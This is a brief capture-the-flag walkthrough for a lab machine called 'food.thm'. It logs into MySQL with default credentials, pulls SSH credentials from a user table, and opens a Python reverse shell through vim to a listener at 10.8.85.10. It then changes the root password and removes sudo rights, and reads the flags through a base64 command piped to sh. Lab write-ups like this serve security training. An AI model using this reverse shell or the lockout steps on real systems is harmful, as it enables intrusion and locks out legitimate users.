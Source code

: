 # Food
 1. `mysql -u root -h food.thm -p` password is `root`
 2. `select * from user` now you have user `ramen : noodlesRTheBest`
 3. `ssh ramen@food.thm`
 4. `nc -nvlp 8888`
 5. 
```
vim -c ':!python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.85.10",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'&
```
 7. now you are root
 8. `passwd` and change root passwd
 9. `vim /etc/sudoers` and delete sudo perms
 10. `find / -name flag 2>/dev/null`

# Flags
1. /root/flag
2. /root/.profile
3. /root/.mysql_history
4. /home/bread/flag
5. /home/food/.flag
6. /home/tryhackme/flag7
7. /var/flag.txt
8. /var/log/auth.log

### Read All Flags
```
echo Y2F0IC9yb290L2ZsYWc7Y2F0IC9yb290Ly5wcm9maWxlO2NhdCAvcm9vdC8ubXlzcWxfaGlzdG9yeTtjYXQgL2hvbWUvYnJlYWQvZmxhZztjYXQgL2hvbWUvZm9vZC8uZmxhZztjYXQgL2hvbWUvdHJ5aGFja21lL2ZsYWc3O2NhdCAvdmFyL2ZsYWcudHh0O2NhdCAvdmFyL2xvZy9hdXRoLmxvZw== |base64 -d |sh
```
